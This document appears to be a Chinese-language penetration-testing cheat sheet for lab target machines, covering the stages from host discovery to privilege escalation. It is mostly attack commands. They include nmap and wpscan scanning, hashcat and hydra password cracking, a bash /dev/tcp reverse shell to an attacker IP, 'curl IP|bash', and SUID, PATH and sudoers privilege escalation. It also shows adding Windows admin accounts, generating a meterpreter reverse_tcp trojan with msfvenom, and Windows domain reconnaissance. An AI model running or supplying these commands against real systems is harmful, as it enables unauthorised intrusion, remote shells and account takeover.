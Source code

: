 # 主机发现阶段

`arp-scan --interface=eth0 -l | grep *`

指定接口扫描 换成IP可以指定网段

`nmap -sV -p- -sT -sC  ip`

扫描靶机的版本基本漏洞扫描 使用 `--script=vuln` 可以扫描漏洞，使用 `--min-rate` 指定速率

# web探索阶段

`dirb +http:// ip` 

扫描网站目录 `-w` 可以指定字典

在一定的探索基础上可以使用wpscan 扫描wrodpress的cms的网站信息

`wpscan --url=http://ip --ignore-main-redirect --force  -e --plugins-detection aggressive`

数据库连接

`mysql -h ip -D database-u seeddms -p seeddms`

数据库注入

`system cmd`

`select cmd into outfile 路径`

`update tablename set columnname ="content" where columnname=""`

md5破解和计算

`echo -n ""|md5sum`

`hashcat -a 0 -m 0 hashValue /usr/share/wordlists/rockyou.txt`

`hydra -L userList -P passwordList ssh://ip -V`

samba枚举

`enum4linux ip`

# Getshell阶段

file_upload&RCE

反弹shell

前置知识

| command > file  | 将输出重定向到 file。                              |
| --------------- | -------------------------------------------------- |
| command < file  | 将输入重定向到 file。                              |
| command >> file | 将输出以追加的方式重定向到 file。                  |
| n > file        | 将文件描述符为 n 的文件重定向到 file。             |
| n >> file       | 将文件描述符为 n 的文件以追加的方式重定向到 file。 |
| n >& m          | 将输出文件 m 和 n 合并。                           |
| n <& m          | 将输入文件 m 和 n 合并。                           |
| << tag          | 将开始标记 tag 和结束标记 tag 之间的内容作为输入。 |

> *需要注意的是文件描述符 0 通常是标准输入（STDIN），1 是标准输出（STDOUT），2 是标准错误输出（STDERR）*

`bash -i >& /dev/tcp/攻击机IP/攻击机端口 0>&1`

`curl IP|bash`(需要80开放)

`msfvenom -l payloads | grep 'cmd/unix/reverse'`

ssh登录

`ssh [-l login_name] [-p port] [user@]hostname`

# 提权

传输文件：

nc：

靶机上监听端口: `nv -lnvp 4545(port) > 123.c`

kali上传文件: `nc 192.168.88.* 4545(port) < 123.c -w 1`

利用nc将kali的文件上传到靶机，这里靶机监听端口将文件写入123.c。kali这里ip为靶机ip 然后将123.c上传过去

`python -m http.server 8080` 

`php -S 0:80 `

`searchsploit * -m *`

`sudo -l` 列出权限

sudo -i 提权

SUID提权：

> 具有这种权限的文件会在其执行时，使调用者暂时获得该文件拥有者的权限。如果拥有SUID权限

```shell
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

查找特权命令

`find pentestlab -exec whoami \;`

`vim bash less more`

`awk 'BEGIN {system("/bin/bash")}'`

`man passwd !/bin/bash`

环境变量+SUID

```
cd /tmp
echo “/bin/sh” > ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./shell
```

绕过被限制的shell

```
BASH_CMDS[a]=/bin/sh;a  注：把/bin/bash给a变量`
export PATH=$PATH:/bin/    注：将/bin 作为PATH环境变量导出
export PATH=$PATH:/usr/bin   注：将/usr/bin作为PATH环境变量导出
```



`echo "username ALL=(ALL:ALL) ALL" | sudo cmd -a /etc/sudoers`

内核提权：

`脏牛 影响范围：Linux内核>=2.6.22（2007年发行）开始就受影响了，直到2016年10月18日才修复。`

`cat /etc/crontab`

[Linux配置错误提权之利用/etc/passwd](https://blog.csdn.net/qq_44159028/article/details/121078898)

```
net user 账户 密码 /add
管理员权限，所有直接加
net localgroup administrators admin /add
```

# 木马注入

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=5555 -a x86 --platform Windows -f exe > shell.exe`


# 信息收集
```shell
 ipconfig /all   # 查看本机ip，所在域
 route print     # 打印路由信息
 net view        # 查看局域网内其他主机名
 arp -a          # 查看arp缓存
 net start       # 查看开启了哪些服务
 net share       # 查看开启了哪些共享
 net share ipc$  # 开启ipc共享
 net share c$    # 开启c盘共享
 net use \\192.168.xx.xx\ipc$ "" /user:""    # 与192.168.xx.xx建立空连接
 net use \\192.168.xx.xx\c$ "密码" /user:"用户名"    # 建立c盘共享
 dir \\192.168.xx.xx\c$\user    # 查看192.168.xx.xx c盘user目录下的文件
 
 net config Workstation    # 查看计算机名、全名、用户名、系统版本、工作站、域、登录域
 net user                 # 查看本机用户列表
 net user /domain         # 查看域用户
 net localgroup administrators    # 查看本地管理员组（通常会有域用户）
 net view /domain         # 查看有几个域
 net user 用户名 /domain   # 获取指定域用户的信息
 net group /domain        # 查看域里面的工作组，查看把用户分了多少组（只能在域控上操作）
 net group 组名 /domain    # 查看域中某工作组
 net group "domain admins" /domain  # 查看域管理员的名字
 net group "domain computers" /domain  # 查看域中的其他主机名
 net group "doamin controllers" /domain  # 查看域控制器（可能有多台）
```